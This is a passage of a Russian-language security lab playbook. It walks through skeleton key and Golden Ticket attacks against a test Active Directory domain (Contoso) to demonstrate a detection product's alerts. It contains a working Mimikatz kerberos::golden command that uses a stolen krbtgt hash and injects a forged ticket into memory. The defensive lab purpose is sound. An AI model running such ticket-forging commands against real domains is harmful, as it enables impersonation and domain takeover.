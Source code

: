 Эта команда создает новый процесс, *блокнот* , выполняемый в контексте RonHD. **Мастер-ключ можно создать для _любой_ учетной записи, включая учетные записи служб и учетные записи компьютеров.**

> [!Important]
> Очень важно перезагрузить ContosoDC после выполнения атаки с использованием мастер-ключа. Без этого процесс LSASS.exe на ContosoDC будет исправлен и изменен, что приведет к понижению уровня каждого запроса проверки подлинности до RC4.

### <a name="skeleton-key-attack-detection-in-product-short"></a>Обнаружение атаки с использованием мастер-ключа в [!INCLUDE [Product short](includes/product-short.md)]

Что было обнаружено и о чем было сообщено [!INCLUDE [Product short](includes/product-short.md)], пока все это происходило?

![[!INCLUDE [Product short](includes/product-short.md)]: обнаружение атаки с использованием мастер-ключа](media/playbook-dominance-skeletonkey_detected.png)

[!INCLUDE [Product short](includes/product-short.md)] был успешно обнаружен подозрительный метод шифрования перед проверкой подлинности, используемый для этого пользователя.

### <a name="golden-ticket---existing-user"></a>Атака Golden Ticket — существующий пользователь

После получения доступа к Golden Ticket (учетная запись krbtgt описана в разделе о [вредоносной репликации](#malicious-replication)) злоумышленник может подписать билеты так, *будто они являются контроллерами домена*. **Mimikatz** , ИД безопасности домена и украденная учетная запись krbtgt являются обязательными компонентами при выполнении подобной атаки. Мы можем создавать билеты не только для имеющегося пользователя, но и для пользователей, которые еще не существуют.

1. От имени пользователя JeffL выполните указанную ниже команду на компьютере **VictimPC** , чтобы получить ИД безопасности домена:

   ```dos
   whoami /user
   ```

    ![Идентификатор безопасности для пользователя Golden Ticket](media/playbook-dominance-golden_whoamisid.png)

1. Определите и скопируйте ИД безопасности домена, показанный на приведенном выше снимке экрана.

1. С помощью **Mimikatz** используйте скопированный идентификатор безопасности домена вместе с украденным NTLM-хэшем пользователя krbtgt для создания TGT. Вставьте следующий текст в cmd.exe от имени пользователя JeffL:

   ```dos
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

    ![Создание Golden Ticket](media/playbook-dominance-golden_generate.png)

   Часть `/ptt` команды позволяет немедленно передать созданный билет в память.

1. Давайте убедимся, что учетные данные находятся в памяти.  Выполните `klist` в консоли.
